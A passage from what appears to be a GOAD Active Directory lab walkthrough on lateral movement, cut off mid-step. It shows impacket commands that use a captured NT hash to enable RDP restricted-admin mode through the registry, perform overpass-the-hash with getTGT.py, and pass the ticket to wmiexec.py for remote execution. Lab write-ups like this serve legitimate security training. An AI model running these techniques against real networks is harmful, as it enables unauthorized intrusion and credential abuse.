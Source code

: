 - The value doesn't exist we create it :

```bash
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
```

- Now try again rdp connection and it works \o/

![lateral_rdp_work.png](/assets/blog/GOAD/lateral_rdp_work.png)

- Once finished delete the created registry key

```bash
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin'
```

## TGT

### Over Pass the Hash (NT -> TGT -> authentication)

- Get a kerberos ticket from the nt hash

```bash
getTGT.py -hashes ':cba36eccfd9d949c73bc73715364aff5' north.sevenkingdoms.local/catelyn.stark
```

### Pass the ticket

- Now we got the TGT of catelyn we will use it

```bash
export KRB5CCNAME=/workspace/tgt/catelyn.stark.ccache
wmiexec.py -k -no-pass north.sevenkingdoms.local/catelyn.stark@winterfell
```

![lateral_hash_to_tgt.png](/assets/blog/GOAD/lateral_hash_to_tgt.png)

- You could also use the tickets dumped with lsassy using impacket ticketConverter:
